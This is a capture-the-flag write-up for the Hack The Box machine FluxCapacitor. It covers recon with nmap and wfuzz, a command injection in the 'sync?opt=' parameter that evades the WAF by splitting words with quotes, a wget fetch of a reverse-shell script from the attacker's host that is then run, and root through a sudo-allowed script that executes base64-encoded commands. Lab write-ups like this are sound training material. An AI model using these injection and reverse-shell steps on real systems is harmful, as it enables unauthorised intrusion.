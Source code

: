 # FluxCapacitor
[![FluxCapacitor](https://www.hackthebox.eu/storage/avatars/c494431a9d3f52bd96e5cc2cf94f06e4.png)](https://www.hackthebox.eu/home/machines/profile/119)

## Initial Foothold
We run nmap and we find out that port 80 is open and superwaf firewall is used.
```sh
$ nmap -T4 -A -v 10.10.10.69
```
Using dirb to search for directories doesn't really help because there is nothing to be found. All we got is the page "sync" we found from "View Page Source". We suspect that superwaf firewall might filters our attack. We can confirm that by causing a fault in the server simply sending an http request with wrong syntax. So we got the page (sync) and we need to find the parameter name (if exist). For this we give a value to the supposed parameter and if it is filtered by superwaf we will get the corresponding error and at the same time we will know the right parameter name.
```sh
$ wfuzz -c -z file,/usr/share/dirb/wordlists/common.txt --filter="c=403" http://10.10.10.69/sync?FUZZ=\ls
```
This will return only the responses with error code 403 wich will be caused from superwaf while it's trying to block the "ls" comand we gave as a value. The error code 403 was returned while the name of the parameter was ***opt***. Now we have to find the right value for this parameter and bypass the superwaf firewall. The ***'*** symbol as well as the \ symbol, is used in bash to concatenate strings. We can exploit this feature and use it to bypass the firewall. So we create a [reverse.py](https://github.com/pamehabai6/Permission-Denied/blob/master/Write-ups/FluxCapacitor/reverse.py) and upload it to the remote. Next we give it privileges and execute it.
```sh
$ nc -lvp 1234
$ curl -s http://10.10.10.69/sync?opt=' wg'et' 'http://10.10.14.10/reverse.py' '-P' 'tmp
$ curl -s http://10.10.10.69/sync?opt=' pyth'on3' '/tmp/reverse.py
$ curl -s "http://10.10.10.69/sync?opt=' \l\s -la /tmp'"
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ cat /home/FluxCapacitorInc/user.txt
```

## Privesc
By executing the command bellow, we find out that we can run as the root user the program ***/home/themiddle/.monit***. If we read the code we can see that if we encode the parameter in base64, we can execute it as following.
```sh
$ sudo -l
$ sudo -u root ./.monit cmd Y2F0IC9yb290L3Jvb3QudHh0
```
Where ***Y2F0IC9yb290L3Jvb3QudHh0*** is ***cat /root/root.txt*** encode in base64.

***And we finally got root!***

[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Fluxcapacitor](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
